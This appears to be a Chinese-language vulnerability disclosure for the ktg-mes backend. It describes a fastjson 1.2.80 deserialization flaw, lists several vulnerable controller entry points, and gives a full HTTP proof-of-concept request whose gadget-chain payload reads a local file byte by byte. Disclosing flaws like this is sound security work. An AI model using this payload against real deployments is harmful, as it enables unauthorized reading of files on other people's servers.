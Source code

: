 ## ktg-mes 后台存在 fastjson 反序列化漏洞

fastjson 版本 1.2.80：

![image-20250905151032217](./images/image-20250905151032217.png)

com.ktg.generator.controller.GenController#editSave：

![image-20250905151103768](./images/image-20250905151103768.png)

com.ktg.generator.service.IGenTableService#validateEdit：

![image-20250905151119637](./images/image-20250905151119637.png)

类似漏洞入口点总结：

com.ktg.generator.controller.GenController#editSave

com.ktg.mes.wm.controller.mobile.WmStockTakingMobController#add

com.ktg.mes.wm.controller.mobile.WmStockTakingMobController#edit

com.ktg.mes.wm.controller.WmStockTakingController#add

com.ktg.mes.wm.controller.WmStockTakingController#edit

单字节读文件 poc：

```javap
PUT /dev-api/tool/gen HTTP/1.1
Host: 10.157.131.188
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6Ijc4YzVmYjlkLTQ1MzMtNGEwZC04NTQyLTBhZTQ0YmQ5ZjY2NSJ9.hR1uO_MHvDBheqcoD3X8joZTEPq2PD92iZWCV6u5_MHQGdnkf7mpYHTCJrg9CelTPuRMh50AAIOlUJUmVD_rcA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6Ijc4YzVmYjlkLTQ1MzMtNGEwZC04NTQyLTBhZTQ0YmQ5ZjY2NSJ9.hR1uO_MHvDBheqcoD3X8joZTEPq2PD92iZWCV6u5_MHQGdnkf7mpYHTCJrg9CelTPuRMh50AAIOlUJUmVD_rcA
Referer: http://10.157.131.188/tool/gen
Content-Type: application/json

{
    "aaa":"test","tableName":"1","tableComment":"2","className":"3","packageName":"4","moduleName":"5","businessName":"6","functionName":"7","functionAuthor":"8","tplCategory":"tree",
    "params":{
        "a": "{\"@type\": \"java.lang.Exception\",\"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\",    \"p\": {    }  }",
        "b": {
          "$ref": "$.a.a"
        },
        "c": "{  \"@type\": \"com.fasterxml.jackson.core.JsonParser\",  \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\",  \"in\": {}}",
        "d": {
            "$ref": "$.c.c"
        },
        "abc":{
            "@type":"java.io.InputStream",
            "@type":"org.apache.commons.io.input.BOMInputStream",
            "delegate":{
                "@type":"org.apache.commons.io.input.ReaderInputStream",
                "reader":{
                    "@type":"jdk.nashorn.api.scripting.URLReader",
                    "url":"file://D:/CodeAudit/ktg-mes-master/ktg-mes-master/test.txt"
                },
                "charsetname":"UTF-8",
                "buffersize":1024
            },
            "boms":[{
                "@type":"org.apache.commons.io.ByteOrderMark",
                "charsetname":"UTF-8",
                "bytes":[115]
            }],
            "address":{"$ref":"$.abc.BOM"}
        }
    }
}
```

![image-20250905151142780](./images/image-20250905151142780.png)